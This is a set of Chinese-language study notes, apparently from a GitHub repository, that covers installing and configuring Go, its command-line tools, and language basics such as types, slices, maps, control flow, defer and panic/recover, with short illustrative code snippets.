





# build-web-application-with-golang


## *1. 安装与环境配置*

### a. 安装

#### 通过安装包安装

https://golang.org/dl/

#### 通过 gvm 安装

https://github.com/moovweb/gvm

使用 gvm 的注意事项：https://laucyun.com/ff3bc3db699464aa76756e41be780712.html


### b. 几个重要的环境变量配置

#### GOROOT

go 的安装目录，一般为 /usr/local/go。

#### PATH

需要将 GOROOT 环境变量加入到 PATH 中，一般将以下语句添加到 ~/.bash_profile 或 ~/.zshrc 中添加到全局执行环境中：

```bash
export PATH="$PATH:$GOROOT/bin"
```

#### GOPATH

每个项目引用包的路径，一般为每个项目的根目录。

可参考：https://golang.org/doc/code.html#GOPATH

#### 一个范例

```bash
# for global golang
export PATH=$PATH:$(go env GOPATH)/bin
export GOPATH=$(go env GOPATH)

# for some golang proj
export GOPATH=$GOPATH:/Users/silentcat/Golang/Workspace/build-web-application-with-golang
export PATH=$PATH:/Users/silentcat/Golang/Workspace/build-web-application-with-golang/bin

```


### c. 目录结构

#### 约定

以上 $GOPATH 目录约定有三个子目录：

- src 存放源代码（比如：.go .c .h .s等）
- pkg 编译后生成的文件（比如：.a）
- bin 编译后生成的可执行文件（为了方便，可以把此目录加入到 $PATH 变量中，如果有多个gopath，那么使用`${GOPATH//://bin:}/bin`添加所有的bin目录）

比如我现有的目录如下：


### d. 编译应用

* 对一个普通包执行 `go install ` ，就可以在项目目录 `pkg` 下生成可运行的应用包 (xxxx.a)
* 对一个应用程序 (main 包) 先执行 `go build`，该目录下会生成 `./xxxx ` 的可执行文件，然后再执行` go install`，将在项目目录 `bin` 下生成可执行文件 `xxxx`，如果已经将 `$GOPATH/bin `  加入到了我们的 `PATH` 中，则直接可以通过可执行文件的名称运行


### e. 获取远程包

go语言有一个获取远程包的工具就是`go get`，目前go get支持多数开源社区(例如：GitHub、googlecode、bitbucket、Launchpad)

```go
go get github.com/astaxie/beedb
```

> go get -u 参数可以自动更新包，而且当go get的时候会自动获取该包依赖的其他第三方包

通过这个命令可以获取相应的源码，对应的开源平台采用不同的源码控制工具，例如GitHub采用git、googlecode采用hg，所以要想获取这些源码，必须先安装相应的源码控制工具

通过上面获取的代码在我们本地的源码相应的代码结构如下

```go
$GOPATH
  src
   |--github.com
		  |-astaxie
			  |-beedb
   pkg
	|--相应平台
		 |-github.com
			   |--astaxie
					|beedb.a
```

go get本质上可以理解为首先第一步是通过源码工具clone代码到src下面，然后执行`go install`

在代码中如何使用远程包，很简单的就是和使用本地包一样，只要在开头import相应的路径就可以

```go
import "github.com/astaxie/beedb"
```


## *2. 常用的 Go 命令*

### go build

这个命令主要用于编译代码。在包的编译过程中，若有必要，会同时编译与之相关联的包。

- 如果是普通包，就像我们在1.2节中编写的`mymath`包那样，当你执行`go build`之后，它不会产生任何文件。如果你需要在`$GOPATH/pkg`下生成相应的文件，那就得执行`go install`。
- 如果是`main`包，当你执行`go build`之后，它就会在当前目录下生成一个可执行文件。如果你需要在`$GOPATH/bin`下生成相应的文件，需要执行`go install`，或者使用`go build -o 路径/a.exe`。
- 如果某个项目文件夹下有多个文件，而你只想编译某个文件，就可在`go build`之后加上文件名，例如`go build a.go`；`go build`命令默认会编译当前目录下的所有go文件。
- 你也可以指定编译输出的文件名。

#### 常用参数

- `-o` 指定输出的文件名，可以带上路径，例如 `go build -o a/b/c`
- `-i` 安装相应的包，编译+`go install`
- `-n` 把需要执行的编译命令打印出来，但是不执行，这样就可以很容易的知道底层是如何运行的
- `-x` 打印出来执行的命令，其实就是和`-n`的结果类似，只是这个会执行
- `-compiler name` 指定相应的编译器，gccgo还是gc


### go clean

这个命令是用来移除当前源码包和关联源码包里面编译生成的文件。一般都是利用这个命令清除编译文件，然后GitHub递交源码，在本机测试的时候这些编译文件都是和系统相关的，但是对于源码管理来说没必要。

#### 常用参数

- `-i` 清除关联的安装的包和可运行文件，也就是通过go install安装的文件
- `-n` 把需要执行的清除命令打印出来，但是不执行，这样就可以很容易的知道底层是如何运行的
- `-x` 打印出来执行的详细命令，其实就是`-n`打印的执行版本


### go fmt

这个命令可以用部分 IDE 的自动缩进功能代替，其内部实现也是调用 go fmt 命令。


### go get

这个命令是用来动态获取远程代码包的，目前支持的有 BitBucket、GitHub、Google Code 和 Launchpad。这个命令在内部实际上分成了两步操作：第一步是下载源码包，第二步是执行 `go install`。

#### 常用参数

- `-d` 只下载不安装
- `-t` 同时也下载需要为运行测试所需要的包
- `-u` 强制使用网络去更新包和它的依赖包
- `-v` 显示执行的命令


### go install

这个命令在内部实际上分成了两步操作：第一步是生成结果文件(可执行文件或者.a包)，第二步会把编译好的结果移到`$GOPATH/pkg`或者`$GOPATH/bin`。

####  常用参数

* `-v` 显示执行的命令


### go test

执行这个命令，会自动读取源码目录下面名为`*_test.go`的文件，生成并运行测试用的可执行文件。输出的信息类似：

```go
ok   archive/tar   0.011s
FAIL archive/zip   0.022s
ok   compress/gzip 0.033s
...
```

默认的情况下，不需要任何的参数，它会自动把你源码包下面所有test文件测试完毕，当然你也可以带上参数，详情请参考`go help testflag`。

#### 常用参数

- `-bench regexp` 执行相应的benchmarks，例如 `-bench=.`
- `-cover` 开启测试覆盖率
- `-run regexp` 只运行regexp匹配的函数，例如 `-run=Array` 那么就执行包含有Array开头的函数
- `-v` 显示测试的详细命令


### go tool

`go tool`下面下载聚集了很多命令，这里只举例两个常用的：

- `go tool fix .` 用来修复以前老版本的代码到新版本，例如go1之前老版本的代码转化到go1,例如API的变化
- `go tool vet directory|files` 用来分析当前目录的代码是否都是正确的代码,例如是不是调用fmt.Printf里面的参数不正确，例如函数里面提前return了然后出现了无用代码之类的。


### go generate

`go generate`和`go build`是完全不一样的命令，通过分析源码中特殊的注释，然后执行相应的命令。这些命令都是很明确的，没有任何的依赖在里面。而且大家在用这个之前心里面一定要有一个理念，这个`go generate`是给你用的，不是给使用你这个包的人用的，是方便你来生成一些代码的。

这里我们来举一个简单的例子，例如我们经常会使用`yacc`来生成代码，那么我们常用这样的命令：

```go
go tool yacc -o gopher.go -p parser gopher.y
```

-o 指定了输出的文件名， -p指定了package的名称，这是一个单独的命令，如果我们想让`go generate`来触发这个命令，那么就可以在当前目录的任意一个`xxx.go`文件里面的任意位置增加一行如下的注释：

```go
//go:generate go tool yacc -o gopher.go -p parser gopher.y
```

这里我们注意了，`//go:generate`是没有任何空格的，这其实就是一个固定的格式，在扫描源码文件的时候就是根据这个来判断的。

所以我们可以通过如下的命令来生成，编译，测试。如果`gopher.y`文件有修改，那么就重新执行`go generate`重新生成文件就好。

```go
$ go generate
$ go build
$ go test
```


### godoc

在Go1.2版本之前还支持`go doc`命令，但是之后全部移到了godoc这个命令下，需要这样安装`go get golang.org/x/tools/cmd/godoc` 。

如何查看相应package的文档呢？ 例如builtin包，那么执行`godoc builtin` 如果是http包，那么执行`godoc net/http` 查看某一个包里面的函数，那么执行`godoc fmt Printf` 也可以查看相应的代码，执行`godoc -src fmt Printf` 。

通过命令在命令行执行 godoc -http=:端口号 比如`godoc -http=:8080`。然后在浏览器中打开`127.0.0.1:8080`，你将会看到一个golang.org的本地copy版本，通过它你可以查询pkg文档等其它内容。如果你设置了GOPATH，在pkg分类下，不但会列出标准包的文档，还会列出你本地`GOPATH`中所有项目的相关文档，这对于经常被墙的用户来说是一个不错的选择。


## *3. Go 语言基础*

### 主程序

`package <pkgName>`（在我们的例子中是`package main`）这一行告诉我们当前文件属于哪个包，而包名`main`则告诉我们它是一个可独立运行的包，它在编译后会产生可执行文件。除了`main`包之外，其它的包最后都会生成`*.a`文件（也就是包文件）并放置在`$GOPATH/pkg/$GOOS_$GOARCH`中（以Mac为例就是`$GOPATH/pkg/darwin_amd64`）。

每一个可独立运行的Go程序，必定包含一个`package main`，在这个`main`包中必定包含一个入口函数`main`，而这个函数既没有参数，也没有返回值。

Go使用`package`（和Python的模块类似）来组织代码。`main.main()`函数(这个函数位于主包）是每一个独立的可运行程序的入口点。Go使用UTF-8字符串和标识符(因为UTF-8的发明者也就是Go的发明者之一)，所以它天生支持多语言。


### 变量

`:=` 符号直接取代了`var`和`type`,这种形式叫做简短声明。不过它有一个限制，那就是它只能用在函数内部；在函数外部使用则会无法编译通过，所以一般用`var`方式来定义全局变量。

`_`（下划线）是个特殊的变量名，任何赋予它的值都会被丢弃。

Go对于已声明但未使用的变量会在编译阶段报错。


### 常量

所谓常量，也就是在程序编译阶段就确定下来的值，而程序在运行时无法改变该值。在Go程序中，常量可定义为数值、布尔值或字符串等类型。

它的语法如下：

```go
const constantName = value
//如果需要，也可以明确指定常量的类型：
const Pi float32 = 3.1415926
```


### 内置基础类型

#### Boolean

布尔值的类型为`bool`，值是`true`或`false`，默认为`false`，布尔类型不能接受其他类型的赋值，不支持自动或强制的类型转换。


#### 数值类型

整数类型有无符号和带符号两种。Go同时支持`int`和`uint`，这两种类型的长度相同，但具体长度取决于不同编译器的实现。Go里面也有直接定义好位数的类型：`rune`, `int8`, `int16`, `int32`, `int64`和`byte`, `uint8`, `uint16`, `uint32`, `uint64`。其中`rune`是`int32`的别称，`byte`是`uint8`的别称。

> 需要注意的一点是，这些类型的变量之间不允许互相赋值或操作，不然会在编译时引起编译器报错。

浮点数的类型有`float32`和`float64`两种（没有`float`类型），默认是`float64`。

Go还支持复数。它的默认类型是`complex128`（64位实数+64位虚数）。如果需要小一些的，也有`complex64`(32位实数+32位虚数)。不过复数不太常用。


#### 字符串

Go中的字符串都是采用`UTF-8`字符集编码。字符串是用一对双引号（`""`）或反引号（\`\`）括起来定义，它的类型是`string`。

在Go中字符串是不可变的，例如下面的代码编译时会报错：**cannot assign to s[0]**

```go
var s string = "hello"
s[0] = 'c'
```

但如果真的想要修改怎么办呢？下面的代码可以实现：

```go
s := "hello"
c := []byte(s)  // 将字符串 s 转换为 []byte 类型
c[0] = 'c'
s2 := string(c)  // 再转换回 string 类型
```

Go中可以使用`+`操作符来连接两个字符串：

```go
s := "hello,"
m := " world"
a := s + m
fmt.Printf("%s\n", a)
```

修改字符串也可写为：

```go
s := "hello"
s = "c" + s[1:] // 字符串虽不能更改，但可进行切片操作
fmt.Printf("%s\n", s)
```

如果要声明一个多行的字符串怎么办？可以通过```来声明：

```go
m := `hello
	world`
```

\``` 括起的字符串为Raw字符串，即字符串在代码中的形式就是打印时的形式，它没有字符转义，换行也将原样输出。例如本例中会输出：

```go
hello
	world
```


#### 错误类型

Go内置有一个`error`类型，专门用来处理错误信息，Go的`package`里面还专门有一个包`errors`来处理错误：

```go
err := errors.New("emit macho dwarf: elf header corrupted")
if err != nil {
	fmt.Print(err)
}
```


#### iota 枚举

Go里面有一个关键字`iota`，这个关键字用来声明`enum`的时候采用，它默认开始值是0，const中每增加一行加1：

```go
const (
	x = iota // x == 0
	y = iota // y == 1
	z = iota // z == 2
	w        // 常量声明省略值时，默认和之前一个值的字面相同。这里隐式地说w = iota，因此w == 3。其实上面y和z可同样不用"= iota"
)

const v = iota // 每遇到一个const关键字，iota就会重置，此时v == 0

const (
	h, i, j = iota, iota, iota //h=0,i=0,j=0 iota在同一行值相同
)
```

> 除非被显式设置为其它值或`iota`，每个`const`分组的第一个常量被默认设置为它的0值，第二及后续的常量被默认设置为它前面那个常量的值，如果前面那个常量的值是`iota`，则它也被设置为`iota`。


#### 数组 (array)

`array`就是数组，它的定义方式如下：

```
var arr [n]type
```

在`[n]type`中，`n`表示数组的长度，`type`表示存储元素的类型。对数组的操作和其它语言类似，都是通过`[]`来进行读取或赋值。

由于长度也是数组类型的一部分，因此`[3]int`与`[4]int`是不同的类型，数组也就不能改变长度。

**数组之间的赋值是值的赋值，即当把一个数组作为参数传入函数的时候，传入的其实是该数组的副本，而不是它的指针。如果要使用指针，那么就需要用到 `slice` 类型了。**

数组可以使用另一种`:=`来声明：

```go
a := [3]int{1, 2, 3} // 声明了一个长度为3的int数组

b := [10]int{1, 2, 3} // 声明了一个长度为10的int数组，其中前三个元素初始化为1、2、3，其它默认为0

c := [...]int{4, 5, 6} // 可以省略长度而采用`...`的方式，Go会自动根据元素个数来计算长度
```

也可以申明一个二维数组：

```go
// 声明了一个二维数组，该数组以两个数组作为元素，其中每个数组中又有4个int类型的元素
doubleArray := [2][4]int{[4]int{1, 2, 3, 4}, [4]int{5, 6, 7, 8}}

// 上面的声明可以简化，直接忽略内部的类型
easyArray := [2][4]int{{1, 2, 3, 4}, {5, 6, 7, 8}}
```


#### 切片 (slice)

在很多应用场景中，数组并不能满足我们的需求。在初始定义数组时，我们并不知道需要多大的数组，因此我们就需要“动态数组”。在Go里面这种数据结构叫`slice`

**`slice`并不是真正意义上的动态数组，而是一个引用类型。`slice`总是指向一个底层`array`，`slice`的声明也可以像`array`一样，只是不需要长度。**

```go
// 和声明array一样，只是少了长度
slice := []byte {'a', 'b', 'c', 'd'}
```

`slice`可以从一个数组或一个已经存在的`slice`中再次声明。`slice`通过`array[i:j]`来获取，其中`i`是数组的开始位置，`j`是结束位置，但不包含`array[j]`，它的长度是`j-i`。

```go
// 声明一个含有10个元素元素类型为byte的数组
var ar = [10]byte {'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j'}
// a指向数组的第3个元素开始，并到第五个元素结束，
var a []byte = ar[2:5]
//现在a含有的元素: ar[2]、ar[3]和ar[4]
```

> 注意`slice`和数组在声明时的区别：声明数组时，方括号内写明了数组的长度或使用`...`自动计算长度，而声明`slice`时，方括号内没有任何字符。

slice有一些简便的操作：

- `slice`的默认开始位置是0，`ar[:n]`等价于`ar[0:n]`
- `slice`的第二个序列默认是数组的长度，`ar[n:]`等价于`ar[n:len(ar)]`
- 如果从一个数组里面直接获取`slice`，可以这样`ar[:]`，因为默认第一个序列是0，第二个是数组的长度，即等价于`ar[0:len(ar)]`

**`slice`是引用类型，所以当引用改变其中元素的值时，其它的所有引用都会改变该值。**

从概念上面来说`slice`像一个结构体，这个结构体包含了三个元素：

- 一个指针，指向数组中`slice`指定的开始位置
- 长度，即`slice`的长度，对应着 length 方法
- 最大长度，也就是`slice`开始位置到数组的最后位置的长度，对应着 cap 方法


对于`slice`有几个有用的内置函数：

- `len` 获取`slice`的长度
- `cap` 获取`slice`的最大容量
- `append` 向`slice`里面追加一个或者多个元素，然后返回一个和`slice`一样类型的`slice`
- `copy` 函数`copy`从源`slice`的`src`中复制元素到目标`dst`，并且返回复制的元素的个数

> 注：`append`函数会改变`slice`所引用的数组的内容，从而影响到引用同一数组的其它`slice`。 但当`slice`中没有剩余空间（即`(cap-len) == 0`）时，此时将动态分配新的数组空间。返回的`slice`数组指针将指向这个空间，而原数组的内容将保持不变；其它引用此数组的`slice`则不受影响。

从Go1.2开始slice支持了三个参数的slice，之前我们一直采用这种方式在slice或者array基础上来获取一个slice

```go
var array [10]int
slice := array[2:4]
```

这个例子里面slice的容量是8，新版本里面可以指定这个容量

```go
slice = array[2:4:7]
```

上面这个的容量就是`7-2`，即5。这样这个产生的新的slice就没办法访问最后的三个元素。

如果slice是这样的形式`array[:i:j]`，即第一个参数为空，默认值就是0。


#### 字典 (map)

`map` 也就是字典的概念，它的格式为 `map[keyType]valueType`。

`map` 的 key 可以是 int、string 以及所有定义了 `==` 与 `!=` 操作的类型。

```go
// 声明一个key是字符串，值为int的字典,这种方式的声明需要在使用之前使用make初始化
var numbers map[string]int
// 另一种map的声明方式
numbers = make(map[string]int)
```

使用map过程中需要注意的几点：

- `map`是无序的，每次打印出来的`map`都会不一样，它不能通过`index`获取，而必须通过`key`获取
- `map`的长度是不固定的，也就是和`slice`一样，也是一种引用类型
- 内置的`len`函数同样适用于`map`，返回`map`拥有的`key`的数量
- `map`的值可以很方便的修改，通过`numbers["one"]=11`可以很容易的把key为`one`的字典值改为`11`
- **`map`和其他基本型别不同，它不是thread-safe，在多个go-routine存取时，必须使用mutex lock机制**

```go
// 初始化一个字典
rating := map[string]float32{"C":5, "Go":4.5, "Python":4.5, "C++":2 }
// map有两个返回值，第二个返回值，如果不存在key，那么ok为false，如果存在ok为true
csharpRating, ok := rating["C#"]
// 删除key为C的元素
delete(rating, "C")  
```

因为 `map` 是引用类型，所以如果两个`map`同时指向一个底层，那么一个改变，另一个也会相应的改变：

```go
m := make(map[string]string)
m["Hello"] = "Bonjour"
m1 := m
m1["Hello"] = "Salut"  // 现在m["hello"]的值已经是Salut了
```


#### 申明变量的技巧

在Go语言中，同时声明多个常量、变量，或者导入多个包时，可采用分组的方式进行声明。

```go
import(
	"fmt"
	"os"
)

const(
	i = 100
	pi = 3.1415
	prefix = "Go_"
)

var(
	i int
	pi float32
	prefix string
)
```

### 

#### Go 中变量名称的默认规则

Go之所以会那么简洁，是因为它有一些默认的行为：

- **大写字母开头的变量是可导出的，也就是其它包可以读取的，是公有变量；小写字母开头的就是不可导出的，是私有变量。**
- **大写字母开头的函数也是一样，相当于 `class` 中的带 `public` 关键词的公有函数；小写字母开头的就是有 `private` 关键词的私有函数。**


#### make、new 操作

`make` 用于内建类型（`map`、`slice` 和 `channel`）的内存分配。`new ` 用于各种类型的内存分配。

内建函数`new`本质上说跟其它语言中的同名函数功能一样：`new(T)`分配了零值填充的`T`类型的内存空间，并且返回其地址，即一个`*T`类型的值。用Go的术语说，它返回了一个指针，指向新分配的类型`T`的零值。有一点非常重要：

> `new ` 返回指针。

内建函数`make(T, args)`与`new(T)`有着不同的功能，make只能创建`slice`、`map`和`channel`，并且返回一个有初始值(非零)的`T`类型，而不是`*T`。本质来讲，导致这三个类型有所不同的原因是指向数据结构的引用在使用前必须被初始化。例如，一个`slice`，是一个包含指向数据（内部`array`）的指针、长度和容量的三项描述符；在这些项目被初始化之前，`slice`为`nil`。对于`slice`、`map`和`channel`来说，`make`初始化了内部的数据结构，填充适当的值。

> `make` 返回初始化后的（非零）值。


#### 零值

关于“零值”，所指并非是空值，而是一种“变量未填充前”的默认值，通常为0。 此处罗列部分类型的 “零值”：

```go
int     0
int8    0
int32   0
int64   0
uint    0x0
rune    0 //rune的实际类型是 int32
byte    0x0 // byte的实际类型是 uint8
float32 0 //长度为 4 byte
float64 0 //长度为 8 byte
bool    false
string  ""
```


### 流程控制

#### if

Go 的 if 语句可以在条件判断语句中声明变量，这个变量的作用域只能在该条件逻辑块内，其他地方就不起作用了，如下所示：

```go
// 计算获取值x,然后根据x返回的大小，判断是否大于10。
if x := computedValue(); x > 10 {
	fmt.Println("x is greater than 10")
} else {
	fmt.Println("x is less than 10")
}

//这个地方如果这样调用就编译出错了，因为x是条件里面的变量
fmt.Println(x)
```

#### goto

Go有`goto`语句——请明智地使用它。用`goto`跳转到必须在当前函数内定义的标签。例如假设这样一个循环：

```go
func myFunc() {
	i := 0
Here:   //这行的第一个词，以冒号结束作为标签
	println(i)
	i++
	goto Here   //跳转到Here去
}
```

> 标签名是大小写敏感的。

#### for

Go 中的 for 代替了 C 中的 while 和 for 语句功能。

比如替代 while：

```go
sum := 1
for sum < 1000 {
	sum += sum
}
```

由于 Go 支持 “多值返回”, 而对于“声明而未被调用”的变量, 编译器会报错, 在这种情况下, 可以使用`_`来丢弃不需要的返回值。例如：

```go
for _, v := range map {
	fmt.Println("map's val:", v)
}
```

Go 里面`switch`默认相当于每个`case`最后带有`break`，匹配成功后不会自动向下执行其他case，而是跳出整个`switch`, 但是可以使用`fallthrough`强制执行后面的 case 代码。


### 函数

函数是Go里面的核心设计，它通过关键字`func`来声明，它的格式如下：

```go
func funcName(input1 type1, input2 type2) (output1 type1, output2 type2) {
	//这里是处理逻辑代码
	//返回多个值
	return value1, value2
}
```

- 关键字`func`用来声明一个函数`funcName`
- 函数可以有一个或者多个参数，每个参数后面带有类型，通过`,`分隔
- 函数可以返回多个值
- 上面返回值声明了两个变量`output1`和`output2`，如果你不想声明也可以，直接就两个类型
- 如果只有一个返回值且不声明返回值变量，那么你可以省略 包括返回值 的括号
- 如果没有返回值，那么就直接省略最后的返回信息
- 如果有返回值， 那么必须在函数的外层添加return语句

#### 多个返回值

```go
//返回 A+B 和 A*B
func SumAndProduct(A, B int) (int, int) {
	return A+B, A*B
}
```

上面的例子我们可以看到直接返回了两个参数，我们也可以改成如下这样的定义，然后返回的时候不用带上变量名，因为直接在函数里面初始化了。**但如果你的函数是导出的(首字母大写)，官方建议：最好命名返回值，因为不命名返回值，虽然使得代码更加简洁了，但是会造成生成的文档可读性差。**

```go
func SumAndProduct(A, B int) (add int, Multiplied int) {
	add = A+B
	Multiplied = A*B
	return
}
```

#### 变参

Go函数支持变参。接受变参的函数是有着不定数量的参数的。为了做到这点，首先需要定义函数使其接受变参：

```go
func myfunc(arg ...int) {}
```

`arg ...int`告诉Go这个函数接受不定数量的参数。注意，这些参数的类型全部是`int`。在函数体中，变量`arg`是一个`int`的`slice`：

```go
for _, n := range arg {
	fmt.Printf("And the number is: %d\n", n)
}
```

#### 参数传值与传指针

当我们传一个参数值到被调用函数里面时，实际上是传了这个值的一份copy，当在被调用函数中修改参数值的时候，调用函数中相应实参不会发生任何变化，因为数值变化只作用在copy上。

- 传指针使得多个函数能操作同一个对象。
- 传指针比较轻量级 (8bytes),只是传内存地址，我们可以用指针传递体积大的结构体。如果用参数值传递的话, 在每次copy上面就会花费相对较多的系统开销（内存和时间）。所以当你要传递大的结构体的时候，用指针是一个明智的选择。
- Go语言中`channel`，`slice`，`map`这三种类型的实现机制类似指针，所以可以直接传递，而不用取地址后传递指针。（注：若函数需改变`slice`的长度，则仍需要取地址传递指针）

#### defer

Go语言中有种不错的设计，即延迟（defer）语句，你可以在函数中添加多个defer语句。当函数执行到最后时，这些defer语句会按照逆序执行，最后该函数返回。特别是当你在进行一些打开资源的操作时，遇到错误需要提前返回，在返回前你需要关闭相应的资源，不然很容易造成资源泄露等问题。

如果有很多 `defer` 语句，则 `defer` 是采用入栈与出栈的栈调用模式。

与 swift 的 defer 语句有所不同，Go 的 defer 语句暂不支持块，但是你可以直接执行一个匿名函数来代替：

```go
defer func() {
  // do something ..
}
```

defer 还有一个用途是，可以再次修改和重置一个函数的返回值，来看一个安全发送值到 channel 的函数的例子：

```go
func SafeSend(ch chan T, value T) (closed bool) {
    defer func() {
        if recover() != nil {
            // the return result can be altered 
            // in a defer function call
            closed = true
        }
    }()
    
    ch <- value // panic if ch is closed
    return false // <=> closed = false; return
}
```

defer 中可以 recover 函数中可能出现的 panic，并且重置返回值，这样外界在接收这个函数的返回值的时候，就会接收到 defer 中重置后的值，而不是函数中 return 的值。

#### 函数作为值、类型

在Go中函数也是一种变量，我们可以通过 `type` 来定义它，它的类型就是所有拥有相同的参数，相同的返回值的一种类型：

```go
type typeName func(input1 inputType1 , input2 inputType2, ...) (result1 resultType1, ...)
```

举个栗子：

```go
type testInt func(int) bool // 声明了一个函数类型

// 声明的函数类型在这个地方当做了一个参数
func filter(slice []int, f testInt) []int {
	var result []int
	for _, value := range slice {
		if f(value) {
			result = append(result, value)
		}
	}
	return result
}
```

函数当做值和类型在我们写一些通用接口的时候非常有用，通过上面例子我们看到`testInt`这个类型是一个函数类型，然后两个`filter`函数的参数和返回值与`testInt`类型是一样的，但是我们可以实现很多种的逻辑，这样使得我们的程序变得非常的灵活。

#### Panic 和 Recover

Go没有像Java那样的异常机制，它不能抛出异常，而是使用了`panic`和`recover`机制。一定要记住，你应当把它作为最后的手段来使用，也就是说，你的代码中应当没有，或者很少有`panic`的东西。这是个强大的工具，请明智地使用它。那么，我们应该如何使用它呢？

Panic

> 是一个内建函数，可以中断原有的控制流程，进入一个`panic`状态中。当函数`F`调用`panic`，函数F的执行被中断，但是`F`中的延迟函数会正常执行，然后F返回到调用它的地方。在调用的地方，`F`的行为就像调用了`panic`。这一过程继续向上，直到发生`panic`的`goroutine`中所有调用的函数返回，此时程序退出。`panic`可以直接调用`panic`产生。也可以由运行时错误产生，例如访问越界的数组。

Recover

> 是一个内建的函数，可以让进入`panic`状态的`goroutine`恢复过来。`recover`仅在延迟函数中有效。在正常的执行过程中，调用`recover`会返回`nil`，并且没有其它任何效果。如果当前的`goroutine`陷入`panic`状态，调用`recover`可以捕获到`panic`的输入值，并且恢复正常的执行。

下面这个函数演示了如何在过程中使用`panic`

```go
var user = os.Getenv("USER")

func init() {
	if user == "" {
		panic("no value for $USER")
	}
}
```

下面这个函数检查作为其参数的函数在执行时是否会产生`panic`：

```go
func throwsPanic(f func()) (b bool) {
	defer func() {
		if x := recover(); x != nil {
			b = true
		}
	}()
	f() //执行函数f，如果f中出现了panic，那么就可以恢复回来
	return
}
```

#### main 函数和 init 函数

Go里面有两个保留的函数：`init`函数（能够应用于所有的`package`）和`main`函数（只能应用于`package main`）。这两个函数在定义时不能有任何的参数和返回值。虽然一个`package`里面可以写任意多个`init`函数，但这无论是对于可读性还是以后的可维护性来说，我们都强烈建议用户在一个`package`中每个文件只写一个`init`函数。

Go程序会自动调用`init()`和`main()`，所以你不需要在任何地方调用这两个函数。每个`package`中的`init`函数都是可选的，但`package main`就必须包含一个`main`函数。

